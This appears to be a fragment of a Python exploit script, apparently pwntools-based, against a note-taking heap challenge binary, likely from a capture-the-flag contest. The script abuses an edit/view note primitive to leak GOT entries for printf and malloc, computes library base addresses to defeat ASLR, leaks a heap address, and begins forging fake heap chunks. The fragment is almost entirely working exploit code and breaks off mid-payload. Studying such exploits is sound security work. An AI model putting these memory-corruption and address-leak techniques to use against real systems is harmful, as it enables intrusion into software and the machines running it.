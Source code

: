 ```python

payload = flat(
    0x100, print_note,
    sandboxed.got.printf
)
edit_note(3, payload)

leak = view_note(0)
lib.address = u64(leak[:8]) - lib.sym.printf
print(hex(lib.address))

payload = flat(
    0x100, print_note,
    sandboxed.got.malloc
    # lib.address + 0x54c2e0
    # lib.address + 0x515000
)
edit_note(3, payload)

leak = view_note(0)
library_runner.address = u64(leak[:8]) - library_runner.sym.malloc
print(hex(library_runner.address))

# AllocChunk: _ZN7sandbox21MemoryServiceProvider3runEv+450
# DeallocChunk: _ZN7sandbox21MemoryServiceProvider3runEv+840
# 0x155554e29c78
try_alloc = sandboxed.address + 0x0000a7c1
try_dealloc = sandboxed.address + 0x0000a72c

# edit_note+162
# 0x00007ffff7fb2c00

if args.LOCAL and not args.DOCKER:
    stack_target = heap + 0x7ef368
else:
    stack_target = heap + 0x7ef3a8
payload = flat(
    0x100, print_note,
    stack_target
)
edit_note(3, payload)

leak = view_feedback(460)
actual_heap = u64(leak[0xb8:0xc0])
print(hex(actual_heap))
feedback_chunk = actual_heap - 0xc0
print(hex(feedback_chunk))

payload = flat(
    0x0, 0x0,
    0x0, 0x1f1,
    0x0, 0x0,
    0x0, 0x1f1,
    0x0, 0x0,
    0x0, 0x1f1,
    0x0, 0x0,
    0x0, 0x1f1,
    0x0, 0x0,
    0x0, 0x1f1,
    0x0, 0x0,
    0x0, 0x1f1,
    0x0, 0x0,
    0x0, 0x1f1,
```